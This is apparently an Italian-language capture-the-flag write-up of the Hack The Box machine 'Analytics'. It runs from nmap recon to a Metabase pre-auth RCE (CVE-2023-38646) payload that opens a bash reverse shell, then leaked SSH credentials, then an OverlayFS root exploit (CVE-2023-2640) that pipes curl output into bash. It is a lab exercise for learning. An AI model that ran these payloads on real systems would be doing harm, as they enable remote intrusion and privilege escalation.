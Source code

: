 # Analytics

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.11.233
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.11.233 (10.10.11.233)
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/9%OT=22%CT=1%CU=43982%PV=Y%DS=2%DC=I%G=Y%TM=6523F24
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=105%GCD=2%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Quindi aggiungo _analytical.htb_ al file _/etc/hosts_

## Enumeration

Innanzitutto, visito la pagina http://analytical.htb:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-1.png" />
</p>

Provo a visitare la pagina di login che mi porta all'indirizzo http://data.analytical.htb:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-2.png" />
</p>

Facendo una rapida ricerca su internet mi imbatto in questa vulnerabilità: [Pre-Auth RCE in Metabase (CVE-2023-38646)](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).


## Exploitation

Per sfruttare questa vulnerabilità occorre recuperare il setup-token. E' possibile ottenerlo al seguente indirizzo:_http://data.analytical.htb/api/session/properties_.

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-3.png" />
</p>

Successivamente, utilizzo _burpsuite_ per inviare una richiesta e creare una reverse-shell. Prima però avvio un listener sulla porta 4444 e codifico, in base 64, il seguente comando:

```text
bash -i >&/dev/tcp/10.10.14.5/4444 0>&1
```

```text
YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjUvNDQ0NCAwPiYx
```

Quindi, invio questa richiesta tramite _burpsuite_:

```text
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjUvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Ottengo la seguente reverse-shell:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-4.png" />
</p>

Visualizzando il contenuto delle variabili di ambiente, scopro username e password dell'utente _metalytics_:

```text
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=7a9ce06949c1
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

```text
metalytics:An4lytics_ds20223#
```

Provo quindi a sfruttarle per eseguire un accesso tramite ssh:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-5.png" />
</p>

**Ottengo così il primo flag!**

## Privilege Escalation

Lanciando lo script _linpeas.sh_ scopro la seguente informazione:

```text
OS: Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu
```

Facendo una ricerca capisco che questa versione di Ubuntu è vulnerabile alla seguente vulnerabilità: [CVE-2023-2640](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/).

Per poter sfruttare questa vulnerabilità, ed elevare quindi i miei privilegi, utilizzo quindi il seguente script e avvio un listener sulla porta 8000:

```text
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("curl 10.10.14.5:8000/rev|bash")'
```

**Cosi facendo ottengo una reverse-shell con privilegi root!**

Purtroppo però non ho i permessi per accedere alla cartella root:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-5.png" />
</p>

Il possessore della cartella root è l'utente _nobody_:

```text
drwx------   6 nobody nogroup  4096 Aug 25 15:14 root
```

Il quale ha il seguente UID:

```text
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
